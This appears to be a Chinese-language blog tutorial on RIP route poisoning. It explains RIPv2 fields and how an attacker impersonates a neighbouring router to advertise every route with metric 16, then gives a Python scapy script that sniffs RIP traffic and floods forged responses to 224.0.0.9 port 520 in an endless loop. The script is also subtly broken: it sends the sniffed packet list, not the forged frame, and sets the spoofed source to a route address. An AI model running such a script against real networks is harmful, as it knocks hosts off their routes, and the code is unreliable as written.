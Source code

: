 # Python 协议攻击脚本(八): RIP攻击

## RIP

> RIP是Routing Information Protocol（路由信息协议）的简称，它是一种较为简单的内部网关协议（Interior Gateway Protocol）。RIP是一种基于距离矢量（Distance-Vector）算法的协议，它使用跳数（Hop Count）作为度量来衡量到达目的网络的距离。RIP通过UDP报文进行路由信息的交换，使用的端口号为520。

**RIPv2报文部分字段**

* command
    * 1：Request报文，向邻居请求全部或部分路由信息；
    * 2：Reponse报文，发送自己全部或部分路由信息，一个Response报文中最多包含25个路由表项。
* next Hop 下一跳地址
* metric 路由的开销值

**RIP毒化**:

**原理**

>RIP是一种基于距离矢量（Distance-Vector）算法的协议，它使用跳数（Hop Count）作为度量值来衡量到达目的地址的距离。度量值等于从本网络到达目的网络间的设备数量。大于或等于16的跳数被定义为无穷大，即目的网络或主机不可达。

RIP消息通过组播地址224.0.0.9和UDP协议的520端口进行广播；RIP每30秒向邻居路由器发送一次广播，广播整个路由。攻击者则伪造成附近路由,再把开销设为16,达成路由毒化



[RIP基础知识]([https://cshihong.github.io/2018/03/23/RIP%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86/](https://cshihong.github.io/2018/03/23/RIP基础知识/))

## 数据包分析

下载rip的包

[下载](http://packetlife.net/captures/protocol/rip/)

![mark](http://cdn.youyouorz.top/blog/img/20190507/XoBVgUkphsED.png?imageslim)

IP:

* src: `路由器ip`

* dst: `224.0.0.9` （rip多播地址）

UDP:

* sport:`520`

* dport:`520`

RIP:

* command:`2` （Response）
* Metric:`1`（开销值）

## 编写脚本

查看scapy模块中RIP协议字段

```python
>>> ls(RIP)
cmd        : ByteEnumField                       = (1)
version    : ByteField                           = (1)
null       : ShortField                          = (0)
>>> ls(RIPEntry)
AF         : ShortEnumField                      = (2)
RouteTag   : ShortField                          = (0)
addr       : IPField                             = ('0.0.0.0')
mask       : IPField                             = ('0.0.0.0')
nextHop    : IPField                             = ('0.0.0.0')
metric     : IntEnumField                        = (1)
```

脚本

```python
#!/usr/bin/env pyhton3
# -*- coding:utf-8 -*-

from scapy.all import RIP, Ether, IP, UDP, RIP, RIPEntry, sniff, send

packet = sniff(stop_filter=lambda x: x.haslayer(RIP))
mac_dst = packet[-1][Ether].dst
mac_src = packet[-1][Ether].src
ip = packet[-1][RIPEntry].addr
entry = packet[-1][RIPEntry]
ripentry = RIPEntry(addr=ip, metric=16)

# 判断是否只有有其他的路由信息
if entry.getlayer(RIPEntry, 2):
    while entry:
        # 获取下一个路由信息
        entry = entry.getlayer(RIPEntry, 2)
        ip = entry.addr
        ripentry = ripentry / RIPEntry(addr=ip, metric=16)


rip = (Ether(dst=mac_dst, src=mac_src)
       / IP(dst="224.0.0.9", src=ip)
       / UDP(dport=520, sport=520) / RIP(cmd=2, version=2) / ripentry)

while True:
    packet.show()
    send(packet, verbose=0)

```

